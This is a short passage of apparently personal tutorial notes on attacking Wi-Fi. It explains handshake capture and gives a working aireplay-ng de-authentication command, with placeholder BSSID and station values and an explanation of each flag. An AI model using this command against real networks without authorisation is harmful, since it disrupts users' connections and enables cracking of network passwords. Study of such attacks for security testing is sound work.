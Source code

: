 here -->  we are capturing some data to try to catch the handshake

To speed up this process we can -->  <span style="color:#00b050">deauthenticate the client</span>
=>
the client must reconnect do the wifi
=>
we can capture the handshake

#### De-authentication Attack
open a new tab
`aireplay-ng -0 1 -a <BSSID> -c <STATION> wlp4s0mon`
`-0` -->  means deauthentication attack 
`1` -->  run only one time
``-a <BSSID>`` -->  BSSID of the client you want to deauthenticate
